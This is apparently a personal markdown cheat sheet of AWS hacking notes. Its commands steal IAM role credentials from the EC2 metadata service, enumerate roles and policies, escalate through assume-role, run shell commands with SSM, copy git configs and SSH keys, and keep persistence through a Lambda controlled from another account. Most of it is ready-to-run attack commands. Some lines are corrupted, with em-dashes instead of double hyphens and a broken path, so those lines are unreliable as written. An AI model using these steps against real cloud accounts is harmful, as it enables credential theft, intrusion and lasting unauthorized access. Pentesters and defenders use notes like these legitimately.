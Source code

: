 ```yaml
---
is_a: "[[group]]"
topics:
  - "[[note]]"
  - "[[hacking]]"
---
```

# Notes
AWS hacking notes

## Stealing AWS token from metadata service
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
* Copy the role name returned
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

or
```
export ROLE_NAME=`curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/`
echo "Instance role is ${ROLE_NAME}"
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/${ROLE_NAME}/
```

### aws cli
```
aws sts get-session-token
```
won’t work if you’re already using session creds

## Finding out who you are
Pull the instance profile from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/info/
```
* Copy the InstanceProfileArn field from the result

Pull the role name from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

AWS command line
```
aws sts get-caller-identity
```

## Finding out what you have access to
Get Role. Shows trust relationships.
```
aws iam get-role --role-name ${ROLE}
```

List managed policies attached to role
```
aws iam list-attached-role-policies --role-name $ROLE
```

Get Inline Role Names
```
aws iam list-role-policies --role-name $ROLE
```

Iterate over all inline policies
```
for POLICYNAME in `aws iam list-role-policies --role-name $ROLE | jq -r '.PolicyNames[]'`; do aws iam get-role-policy --role-name $ROLE --policy-name $POLICYNAME; done
```
Retrieves the specified inline policy document that is embedded with the specified IAM role.
```
aws iam get-role-policy --role-name <value>
```
aws iam get-instance-profile —instance-profile-name <instance_profile_name>     (gets roles and policies that this instance profile has)

## Escalation (using assume role)
Pulling interesting metadata
curl  http://169.254.169.254/latest/meta-data/
curl  http://169.254.169.254/latest/user-data
curl  http://169.254.169.254/latest/dynamic/
curl  http://169.254.169.254/latest/meta-data/iam/info/
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<instance_profile_name>

Running aws-configure
```
mkdir ~/.aws
cat <<EOF >~.awsconfig
[default]
output = json
region = us-east-1
EOF
```

## Aws CLI fun
```
aws iam get-instance-profile —instance-profile-name <instance_profile_name>
aws iam get-role —role-name jslave
aws iam list-account-aliases
aws ec2 describe-security-groups —group-names ‘Default’ —query ‘SecurityGroups[0].OwnerId’ —output text               (cheat for getting current account id)
aws iam list-roles
aws iam list-attached-role-policies —role-name <role_name>
aws iam list-role-policies —-role-name <role_name>
aws iam get-role-policy —-role-name <role_name> —policy-name <policy_name>
```

Aws CLI get current user (one of these may work)
```
aws iam get-user
aws sts get-caller-identity
```
AWS SSM Run commands
```
aws ssm send-command --instance-ids "i-0ddd4588e3ab7bd99" --document-name "AWS-RunShellScript" --comment "IP config" --parameters commands=ifconfig --output text
```

Getting account info
Get-caller-identity gives the account number. List-account-aliases gives alias.
```
aws sts get-caller-identity
aws iam list-account-aliases
```

Sign in URL
https://Your_AWS_Account_ID.signin.aws.amazon.com/console/
https://Your_Alias.signin.aws.amazon.com/console/


AWS S3 CLI

```
aws s3 ls
aws s3 ls s3://bucket/dir/
aws s3 cp s3://bucket/dir/file .
```

AWS codecommit
```
aws codecommit list-repositories —region us-east-1
```
Things to work on
```
aws sts get-session-token
```

Testing git access

```
cat ~/.gitconfig
find / | grep ‘.git/config’        (finding any local git repos)
cat ….git/config               (finding where the git repos are hosted)
git config --list
```
- there does not seem to be a way to get a list of all repos. bitbucket has an api that will list them if you have a username/password (and not just an ssh key)

Stealing git access

- copy ~gitconfig and all the files in ~.ssh

SSRF notes

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

# Assume Role
If a given role can assume other roles, this is how to switch
aws sts assume-role --role-arn "arn:aws:iam::123456789012:role/example-role" --role-session-name AWSCLI-Session

# Burp AWS Scopes
^.*\.amazonaws\.com$
^.*\.cloudfront\.net$

## Config file format
```
{
    "enabled":true,
    "host":"^.*\\.amazonaws\\.com$",
    "protocol":"any"
},
{
    "enabled":true,
    "host":"^.*\\.cloudfront\\.net$",
    "protocol":"any"
}
```

# Cloudformation
## Creating user via cloudformation
```
aws cloudformation create-stack --stack-name myuser --template-body file://user.yaml --capabilities CAPABILITY_NAMED_IAM
```

## Persistence
### Lambda
* On compromise (instance or lambda)
* Create lambda
	* Using existing role
	* Set to trigger on SNS messages from C&C in another account.
[AWS SNS to Lambda Cross Account Setup - Shogan.tech](https://www.shogan.co.uk/aws/aws-sns-to-lambda-cross-account-setup/)

# References
* [AWS - Pentest Book](https://pentestbook.six2dez.com/enumeration/cloud/aws)
* [GitHub - RhinoSecurityLabs/pacu: The AWS exploitation framework, designed for testing the security of Amazon Web Services environments.](https://github.com/RhinoSecurityLabs/pacu)
- https://github.com/DataDog/stratus-red-team - aws attack tool

